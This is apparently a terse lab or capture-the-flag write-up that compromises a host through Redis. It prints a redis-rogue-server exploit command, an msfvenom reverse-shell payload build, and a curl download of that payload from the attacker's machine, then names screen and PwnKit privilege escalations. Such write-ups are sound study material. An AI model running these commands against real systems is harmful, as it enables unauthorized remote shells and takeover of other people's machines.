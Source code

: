 #Pwned! 
```IP
192.168.189.176
```
## Nmap
```

```

## Nmap UDP


# Enumeration

## REDIS
```
python3.11 redis-rogue-server.py --rhost 192.168.222.176 --lhost 192.168.45.193 --exp=exp.so
```
create a more stable shell
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.193 LPORT=4444 -a x64 -f elf -o shell
```
```
curl http://192.168.45.193:8000/shell -o shell
```
call it and boom

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241116132103.png?raw=true)
local flag achieved
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241116132530.png?raw=true)


## Automated

### Peass
CVE-2017-5618 setuid screen v4.5.0 LPE
PwnKit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241117111500.png?raw=true)
root

### Mimikatz


